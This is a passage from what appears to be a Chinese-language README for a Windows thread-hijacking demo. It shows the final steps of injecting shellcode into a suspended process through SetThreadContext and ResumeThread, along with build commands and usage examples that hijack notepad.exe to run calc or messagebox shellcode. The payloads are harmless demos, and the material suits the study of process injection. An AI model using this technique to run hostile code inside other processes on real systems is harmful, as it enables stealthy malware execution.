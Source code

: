 ### 步骤 6: 设置新的线程上下文

```c
SetThreadContext(pi.hThread, &ctx);
```

**注意：**
- 线程必须处于挂起状态才能设置上下文
- 设置成功后，新的寄存器值会在线程恢复时生效

### 步骤 7: 恢复线程执行

```c
ResumeThread(pi.hThread);
```

**执行流程：**
```
ResumeThread(hThread)
    │
    ▼
线程从挂起状态恢复
    │
    ▼
CPU 加载线程的上下文
    │
    ▼
RIP/EIP = shellcode 地址
    │
    ▼
开始执行 shellcode
```

## 编译和使用

### 编译

**Windows (CMD):**
```batch
build.bat
```

**Linux/MSYS (Bash):**
```bash
chmod +x build.sh
./build.sh
```

### 使用方法

```bash
# 基本用法
build\thread_hijacking.exe <目标程序路径> <shellcode文件>

# 示例：劫持 notepad.exe
build\thread_hijacking.exe "C:\Windows\System32\notepad.exe" build\calc_shellcode.bin

# 示例：生成自定义 shellcode
build\generate_shellcode.exe calc          # 生成 calc_shellcode.bin
build\generate_shellcode.exe messagebox    # 生成 messagebox_shellcode.bin
```
